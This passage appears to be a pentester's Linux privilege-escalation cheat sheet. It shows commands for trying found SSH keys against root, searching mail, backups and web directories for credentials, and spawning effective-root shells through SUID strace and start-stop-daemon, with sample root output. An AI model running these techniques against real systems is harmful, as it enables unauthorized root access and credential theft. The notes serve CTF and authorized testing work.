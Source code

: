 See if you're in any interesting groups.. this will be a big sign. In this case, I'm in the disk group, which has it's own public privesc vector.

#### /var/spool/mail

Don't forget to check your mail!! 

```bash
ll /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/ /root
```

#### Found SSH Keys 

If you find random ssh keys in the environment, you can test them against the users on the box on the loopback:

```bash
chmod 600 random_key
ssh -i random_key root@127.0.0.1
```

#### Credentials in /var/www/html/

If you're stuck, it's a good idea to check the loopback for vulns and to explore the /var/www/html or wherever the website is being hosted. There are often credentials and information that will guide you.

#### Logs

Check the auth.log, access.log, error.log.

#### SUID Weird Persistance

Doesn't say that you're root, but you behave as root. Run 'bash -p -i'.

```bash
www-data@image:/var/www/html$ strace -o /dev/null /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# bash -p -i
bash-5.0# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

#### Start-Stop-Daemon

```bash
/usr/sbin/start-stop-daemon
/usr/sbin/start-stop-daemon -n foo -S -x /bin/sh -- -p
```

#### NFS

```bash
cat /etc/exports
```

#### MySQL Privesc
